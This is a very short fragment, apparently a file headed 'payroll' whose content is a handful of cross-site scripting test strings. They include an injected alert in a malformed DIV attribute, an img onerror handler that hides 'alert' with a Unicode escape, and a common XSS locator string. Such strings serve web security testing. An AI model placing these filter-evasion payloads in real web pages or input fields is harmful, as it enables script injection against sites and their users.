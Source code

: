 # payroll
test<DIV ST+YLE="	
\";alert('XSS');//" />test
<
<img  src="x:gif" onerror="window['al\u0065rt'](0)"></img>
'';!--"<XSS>=&{()}
